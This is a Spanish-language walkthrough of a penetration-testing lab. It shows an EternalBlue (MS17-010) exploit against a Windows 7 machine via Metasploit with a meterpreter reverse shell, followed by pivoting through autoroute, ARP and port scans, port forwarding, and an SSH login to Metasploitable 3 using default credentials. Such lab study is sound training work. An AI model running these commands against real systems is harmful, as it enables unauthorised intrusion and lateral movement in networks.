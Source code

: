 Laboratorio:
Máquina Atacante (192.168.56.10)
Máquina Windows 7 64bits (192.168.56.3 / 10.10.10.4)-> explotación Ethernalblue 
Máquina Metasploitable 3 (10.10.10.5)

![[Pasted image 20250702103208.png]]

## 1) ATAQUE ETHERNAL BLUE (Máquina Windows 7)

**Reconocimiento con Nmap:**

```
nmap -p445 -sCV <ip_victima>
```

![[Pasted image 20250702103530.png]]

**Análisis de la vulnerabilidad Ethernalblue con nmap:**

```
nmap -p445 --script smb-vuln-ms17-010 <ip_victima>
```

![[Pasted image 20250702104015.png]]

**Explotación de la vulnerabilidad**

```
msfconole
```

![[Pasted image 20250702104256.png]]

Buscamos el exploit asociado con la vulnerabilidad:
```
search exploit eternalblue
```
![[Pasted image 20250702104612.png]]

```
use exploit/windows/smb/ms17_010_eternalblue
show options
```

![[Pasted image 20250702105547.png]]
Debemos rellenar el campo RHOSTS con el ip de la maquina victima
```
set RHOSTS <ip_victima>
```
DEBEMOS TENER EN CUENTA EL PAYLOAD. En este caso, utiilizaremos el default `windows/x64/meterpreter/reverse_tcp`, en caso de querer utilizar otro payload:

```
set payload <payload>
```
Ahora ejecutamos el exploit:
```
run
```
![[Pasted image 20250702110949.png]]

## 2) COMENZAMOS CON EL PIVOTING (Ataque a la máquina Metasploitable 3)

Ejecutamos el comando **ipconfig** para listar las interfaces de red que tiene activa la máquina Windows 7.

![[Pasted image 20250702111655.png]]
**Interface 11** ---> IP: 192.168.56.3
**Interface 12** ---> IP: 10.10.10.4 (En esta interfaz haremos el escaneo)

**Enrutamiento del tráfico a través de la sesión comprometida:** 
Con el fin de encontrar el ip de la máquina Metasploitable 3.

Enviamos la sesión de meterpreter a segundo plano y listamos las sesiones que tenemos:
```
background
sessions -i
```
![[Pasted image 20250702113425.png]]

Usaremos el modulo **autoroute** para **configurar el enrutamiento automático** a través de una sesión comprometida (por ejemplo, una sesión de Meterpreter). Este módulo permite que Metasploit enrute tráfico a través del sistema comprometido para llegar a otras redes internas que no son accesibles directamente desde tu máquina atacante:
```
use post/multi/manage/autoroute
show options
```
![[Pasted image 20250702113829.png]]

Este módulo necesita que le especifiquemos la **SESSION**, en este caso seria la sesión de meterpreter que tenemos en la máquina windows 7:
```
set SESSION <session>
run
```
![[Pasted image 20250702114242.png]]

```
route print
```
![[Pasted image 20250702114359.png]]

**Escaneo de la red interna de la máquina:**
Haremos uso del módulo `post/windows/gather/arp_scanner` para **descubrir dispositivos activos en una red local** usando el protocolo **ARP (Address Resolution Protocol)**.

```
use post/windows/gather/arp_scanner
show options
```
![[Pasted image 20250702115445.png]]

Este módulo necesita que le especifiquemos: **RHOSTS** (Segmento de red de la interfaz que queremos escanear), **SESSION** (sesión de la máquina Windows 7).
```
set RHOSTS 10.10.10.0/24 (en este caso)
set SESSION <session>
run
```
![[Pasted image 20250702120402.png]]
**Windows 7** --> 10.10.10.4
**Serv. DHCP vbx** --> 10.10.10.3
**Metasploitable 3** --> 10.10.10.5
**Dirección de Broadcast** --> 10.10.10.255

**Escaneo de puertos a la máquina Metasploitable 3 (Remote Port Forwarding):**
Usaremos el módulo `scanner/portscan/tcp` es un escáner de puertos **TCP** que se utiliza para identificar **puertos abiertos** en uno o varios hosts.

```
use scanner/portscan/tcp
show options
```
![[Pasted image 20250702130606.png]]

Este módulo nos pide especificar: **RHOSTS** (IP de la máquina Metasploitable 3)

```
set RHOSTS 10.10.10.5 (en este caso)
run
```
![[Pasted image 20250702134913.png]]

**Remote Port Forwarding:**
### Alternativa 1
```
sessions -i 1
```

Ahora asignaremos un puerto de la máquina local atacante para un puerto de la máquina Metasploitable.
```
portfwd add -l 8080 -p 80 -r 10.10.10.5 (IP Metasploitable 3)
```
![[Pasted image 20250702150535.png]]

Accederemos a http://127.0.0.1:8080 para ver si se nos ha transferido el puerto 80 de la máquina Metasploitable 3.
![[Pasted image 20250702150741.png]]

### Alternativa 2 (Mejor)

Usaremos el módulo `post/windows/manage/portproxy` para **configurar reglas de redireccionamiento de puertos (port forwarding)** en sistemas Windows comprometidos, **usando el comando** `netsh interface portproxy`.

```
use post/windows/manage/portproxy
show options
```
![[Pasted image 20250702145903.png]]

Este módulo nos pide especificar: **CONNECT_ADDRESS** (IP de Metasploitable 3), **CONNECT_PORT** (puertos que atacaremos), **LOCAL_ADDRESS** (0.0.0.0), **LOCAL_PORT** (puerto de la maquina intermediaria donde se alojarán los puertos de la máquina Metasploitable 3), **SESSION**.

```
set CONNECT_ADDRESS 10.10.10.5 (Metasploitable 3)
set CONNECT_PORT 22 
set LOCAL_ADDRESS 0.0.0.0
set LOCAL_PORT 5000 (Puerto de la maquina intermedia)
set SESSION <session>
run
```
![[Pasted image 20250702152217.png]]
Una vez que nos hemos traído el puerto **22** de la maquina **Metasploitable 3** al puerto **5000** de la maquina **Windows 7**. Intentaremos conectarnos remotamente por **SSH** con las credenciales **vagrant:vagrant**. 

```
ssh vagrant@192.168.56.3 -p 5000
```
![[Pasted image 20250702152556.png]]